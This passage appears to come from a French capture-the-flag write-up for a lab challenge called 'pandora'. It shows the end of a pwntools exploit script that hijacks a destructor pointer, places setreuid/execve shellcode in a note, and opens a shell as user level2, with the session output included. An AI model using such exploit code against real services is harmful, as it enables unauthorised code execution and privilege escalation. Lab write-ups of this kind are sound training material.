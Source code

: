 ```python
    p.sendline(pack("<I", welcome_addr))
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
    p.sendline(b"exit")
    print(p.readall().decode())
else:
    # The real thing, destructor will launch what's inside out note #1                                               
    p.sendline(pack("<I", note1_addr))
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
    # Good, now restore structure to the original address
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"0")
    p.readuntil("> text(32 max):")
    p.sendline(b"A"*padding + b"BBBB" + pack("<I", note1_addr))
    p.readuntil("[*] Note 0 set")
    p.readuntil("> ")
    # Let's put out shellcode in note #1
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"1")
    p.readuntil("> text(32 max):")
    p.sendline(setreuid_level2 + execve_bash)
    # p.sendline(b"\xCC" * 64)  # sigtrap for debugging
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
    p.sendline(b"exit")
    p.interactive()
```

Sur la partie d'obtention de l'adresse fuitée je regarde si j'obtient un `@` dans l'output car ça correspond au caractère ascii pour la valeur 64 (soit la taille écrit dans le slot).

Je compte 8 octets à fuiter à partir de là soit le 64 sur 32 bits + l'adresse du pointeur.

Mon shellcode se compose d'un `setreuid(1002, 1002)` correspondant à l'UID de l'utilisateur `level2` puis d'un execve `/bin/sh`.

Ca glisse :

```bash
$ python remote_pandora.py 
[+] Opening connection to 192.168.56.83 on port 53121: Done
Note #1 addr: 0x09a89070
[*] Switching to interactive mode
$ id
uid=1002(level2) gid=1001(level1) groups=1002(level2),1001(level1)
```

*Publié le 24 décembre 2022*
